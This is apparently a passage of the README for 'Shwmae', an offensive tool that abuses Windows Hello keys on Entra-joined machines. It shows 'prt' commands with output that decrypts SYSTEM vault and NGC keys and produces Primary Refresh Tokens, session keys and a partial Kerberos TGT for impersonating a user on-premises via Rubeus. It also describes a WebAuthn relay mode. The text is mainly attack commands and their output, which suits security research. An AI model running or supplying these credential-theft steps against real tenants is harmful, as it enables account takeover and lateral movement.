 ## PRT 

The PRT operating mode facilitates generating an initial PRT and renewing existing PRT's via the `prt` command by utilizing any Entra enrolled Windows Hello keys.  If cloud trust is enabled within the tenant, the cloud TGT is decrypted and can be used to authenticate as the user against on premises Active Directory using Rubeus. 

### Initial PRT Example

```
Shwmae prt --sid S-1-5-21-1003644063-402998240-3342588708-1111
[+] Decrypted SYSTEM vault policy 4bf4c442-9b8a-41a0-b380-dd4a704ddb28 key: 2f662c4708167c02732ae89cd4681557be8c4059b3eab1716bbf20ac5fd000fdd0c5038ce2fc4c89fd6627f45b8e613611e8282d8f38c08e828c023f6b8f060b
[+] Decrypted vault policy:
  Aes128: 3cb7dbc9f920a6df0aab211b67ef673d
  Aes256: 43642515f325f55c332d14e0295d3ad43dfdb05324fadb7bea687f1a9e0e6ecd
[=] Found Azure key with UPN mary.gruber@ethicalchaos.dev and kid l5Ov1EluHGcTl/MCwWooU71x0+sHBs78M1Ts9szdNEw=
[+] Successfully decrypted NGC key set from protector type Bio
    Transport Key    : SK-4eed430d-3568-3005-69ca-6967fac4ba9c
    PRT              : 0.AS8A-qRg3oPVsE6rZs41ivgnnIc7qjhtoBdIsnV6MWmI2TsvABc.AgABAwEAAAA....xDuWvx
    PRT Session Key  : AQCeykYwMRUg0d.....uOteU9zR8tCw
    PRT Random Ctx   : 71f7b1a2f4a53a55f39254d3970727104b4d6557040e2b8f
    PRT Derived Key  : 8314d5d03cfcda825edd2f145083504ccef698beb3beff78658240e96158fee0
    Partial TGT      : doIGEjCCBg6gAwIBBaEDAgEWooIE4TC...TZaowUCAwwWuw==
```

### Renewal PRT Example

For PRT renewals the PRT and session key are required from the initial PRT request.

```Shwmae prt --sid S-1-5-21-1003644063-402998240-3342588708-1111 -r --prt 0.AS8A-qRg3oPVsE6rZ....RRjDl --session-key AQCeykYwMR.....9zR8tCw
[+] Decrypted SYSTEM vault policy 4bf4c442-9b8a-41a0-b380-dd4a704ddb28 key: 2f662c4708167c02732ae89cd4681557be8c4059b3eab1716bbf20ac5fd000fdd0c5038ce2fc4c89fd6627f45b8e613611e8282d8f38c08e828c023f6b8f060b
[+] Decrypted vault policy:
  Aes128: 3cb7dbc9f920a6df0aab211b67ef673d
  Aes256: 43642515f325f55c332d14e0295d3ad43dfdb05324fadb7bea687f1a9e0e6ecd
    Transport Key    : SK-4eed430d-3568-3005-69ca-6967fac4ba9c
    PRT              : 0.AS8A-qRg3oPVsE6rZs41ivgnnIc7qjhtoBdIsnV6MWmI2TsvABc.AgABAwEAAAA....xDuWvx
    PRT Session Key  : AQCeykYwMRUg0d.....uOteU9zR8tCw
    PRT Random Ctx   : 71f7b1a2f4a53a55f39254d3970727104b4d6557040e2b8f
    PRT Derived Key  : 8314d5d03cfcda825edd2f145083504ccef698beb3beff78658240e96158fee0
    Partial TGT      : doIGEjCCBg6gAwIBBaEDAgEWooIE4TC...TZaowUCAwwWuw==
```

## WebAuthn

The WebAuthn operating mode sets up a simple web API via the `webauthn` command that will accept WebAuthn assertion requests from the ShwmaeExt web browser extension from another host.    
